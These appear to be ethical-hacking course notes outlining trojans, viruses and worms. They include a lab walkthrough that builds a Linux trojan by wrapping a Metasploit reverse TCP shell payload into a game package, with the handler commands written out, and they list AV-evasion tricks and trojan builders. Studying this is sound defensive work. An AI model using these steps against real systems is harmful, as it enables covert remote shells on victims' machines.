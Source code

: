                 - Malware that downloads trojan
            - Downloaders
                - AV safe program that downloads trojan
                    - Target: Downloads and runs media-player_1.2_installer
                    - Parrot: serving up .sysconfig and listening with netcat on port 9999
    - Wrappers
        - Safe program with trojan attached
            - When safe program runs, trojan is also executed
                - Made linux trojan binary using Metasploit and freesweep (a minesweep game)
                - Parrot: use exploit/multi/handler ; set payload linux/x64/shell/reverse_tcp
                - Target: sudo dpkg -i /home/billy/Downloads/freesweep.deb
                    - Check for shell
    - Crypters
        - Obfuscations to make trojan FUD
- How do trojans infect targets?
    - Email
    - Covert Channels
    - Proxy Servers
    - Removable Media (USB)
- How do trojans evade AV?
    - Splitting the file
    - Changing file extension (windows hides known extensions by default)
    - Modify the trojan and you modify the known signature
    - Encryption
    - Don't use known trojans
        - Custom malware
- How are trojans made?
    - Off-the-shelf builder
        - DarkHorse Trojan Maker
        - ProRAT
        - Senna Spy Trojan Generator
    - Custom build

**Viruses And Worms**
1. Define Viruses and and Worms and explain their characteristics
2. List the phases of the Virus Lifecycle
3. List and define the common virus types
4. List and define how viruses and worms are able to infect computer systems
- What is the difference between viruses and worms?
    - Virus 
        - Malicious software that attackes itself to host file or program
        - Selt-replicating
            - It infects other programs or files
        - Requires human interaction to activate
    - Worm
        - Spreads independently throuh softqare vulnerabilities
        - Doesn't require human interaction
- What are typical goals?
    - Destruction/damage of systems
    - Cyber theft
    - Chaos!
    - Hacktivism
- What are symptoms of infection?
    - Poor system performance
        - Lack of disk space
        - Memory/CPU/Network utilization is high
    - System crashes
    - Missing data
- What are the stages of the Virus Lifecycle?
    - Design
        - Virus dev designs and develops new virus
            - Programming skills
            - Construction kits
    - Replication